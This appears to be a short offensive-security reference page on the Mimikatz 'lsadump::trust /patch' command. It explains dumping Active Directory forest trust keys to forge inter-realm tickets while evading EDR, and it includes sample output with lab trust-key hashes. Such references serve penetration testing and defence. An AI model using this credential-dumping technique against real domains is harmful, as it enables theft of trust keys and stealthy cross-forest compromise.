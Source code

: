 # trust

It can be used for dumping the forest trust keys. Forest trust keys can be leveraged for forging inter-realm trust tickets. Since most of the EDRs are paying attention to the KRBTGT hash, this is a stealthy way to compromise forest trusts.

{% hint style="warning" %}
This command requires elevated privileges (by previously running [privilege::debug](https://tools.thehacker.recipes/mimikatz/modules/privilege/debug) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # lsadump::trust /patch

Current domain: CORP.LAB.LOCAL (corp / S-1-5-21-1874506631-3219952063-538504511)

Domain: EXTERNAL.LOCAL (external / S-1-5-21-280534878-1496970234-700767426)
 [  In ] CORP.LAB.LOCAL -> EXTERNAL.LOCAL
        * aes256_hmac       6994cc6cd1b99bd3869685d14af347e955e9e043f2116ca1665f371efe48fab6
        * aes128_hmac       feeeb865b37c281b21cfa00aee1da71b
        * rc4_hmac_nt       6f9e27669d07b6c7f539c5f6e7fd9f57

 [ Out ] EXTERNAL.LOCAL -> CORP.LAB.LOCAL
        * aes256_hmac       f3417d40bb3e6f2c585e0cb00cf36444b6ebf293407103ca25d8b0650219d82d
        * aes128_hmac       8687ec2ba8ec3e8d8c6e89e94b87792c
        * rc4_hmac_nt       d3b3645b2c8efd19794dfae2dfa6946e

 [ In-1] CORP.LAB.LOCAL -> EXTERNAL.LOCAL
        * aes256_hmac       cec1143242386747b41ea21b071bfa2b211c184699c57cc69bd3f43da57bfef6
        * aes128_hmac       8668ebdcb5b9349b6c279ca9cd421a60
        * rc4_hmac_nt       4a49505568b59490b41724ce676978e5

 [Out-1] EXTERNAL.LOCAL -> CORP.LAB.LOCAL
        * aes256_hmac       9304fef5575424542d1c6cdda1920927cb55df8c203079b51e4e2cfc1cab0d4b
        * aes128_hmac       4cc55daa23d585257ab877914ea42968
        * rc4_hmac_nt       a2639f30fa151b45696631b80f57f4e6
```
